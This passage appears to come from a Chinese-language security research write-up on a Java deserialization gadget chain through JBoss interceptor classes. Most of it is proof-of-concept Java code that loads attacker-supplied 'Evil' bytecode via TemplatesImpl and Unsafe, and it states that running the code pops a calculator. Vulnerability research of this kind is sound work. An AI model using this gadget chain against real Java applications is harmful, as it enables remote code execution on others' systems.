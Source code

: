 ```
        Class<?> interceptorMethodInvocation = Class.forName(&#34;org.jboss.interceptor.proxy.InterceptorInvocation$InterceptorMethodInvocation&#34;);
        Constructor<?> interceptorMethodInvocationDeclaredConstructor = interceptorMethodInvocation.getDeclaredConstructor(InterceptorInvocation.class, Object.class, MethodMetadata.class);
        interceptorMethodInvocationDeclaredConstructor.setAccessible(true);
        InterceptorInvocation interceptorInvocationObj = (InterceptorInvocation) getObjectByUnsafe(InterceptorInvocation.class);
        Object o = interceptorMethodInvocationDeclaredConstructor.newInstance(interceptorInvocationObj, templatesImpl, defaultMethodMetadata);
        // 主动调用 invoke 方法
        Method invokeMethod = o.getClass().getDeclaredMethod(&#34;invoke&#34;, InvocationContext.class);
        invokeMethod.setAccessible(true);
        invokeMethod.invoke(o, new Object[]{null});
    }

    // 通过 Unsafe 无视构造方法进行实例化
    public static Object getObjectByUnsafe(Class myclazz) throws Exception {
        Class<?> clazz = Class.forName(&#34;sun.misc.Unsafe&#34;);
        Field theUnsafe = clazz.getDeclaredField(&#34;theUnsafe&#34;); // 因为 theUnsafe 使用 static 进行修饰, 在 static 代码块中进行初始化,
        theUnsafe.setAccessible(true);
        Unsafe o = (Unsafe) theUnsafe.get(null);
        return o.allocateInstance(myclazz);
    }

    public static TemplatesImpl getTemplatesImpl() throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        Field bytecodes = templates.getClass().getDeclaredField(&#34;_bytecodes&#34;); // 最终调用到 defineClass 方法中加载类字节码
        Field name = templates.getClass().getDeclaredField(&#34;_name&#34;); // 放置任意值
        Field tfactory = templates.getClass().getDeclaredField(&#34;_tfactory&#34;);
        name.setAccessible(true);
        bytecodes.setAccessible(true);
        tfactory.setAccessible(true);
        byte[][] myBytes = new byte[1][];
        myBytes[0] = Repository.lookupClass(Evil.class).getBytes(); // 这个恶意类必须继承`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`抽象类, 之前有分析过, 就不提及了.
        bytecodes.set(templates, myBytes);
        name.set(templates, &#34;&#34;);
        tfactory.set(templates, new TransformerFactoryImpl());
        return templates;
    }
}

```

  
运行即可弹出计算器.  
### org.jboss.interceptor.proxy.SimpleInterceptionChain::invokeNextInterceptor -> 链式调用 & 未实现 Serializable  
  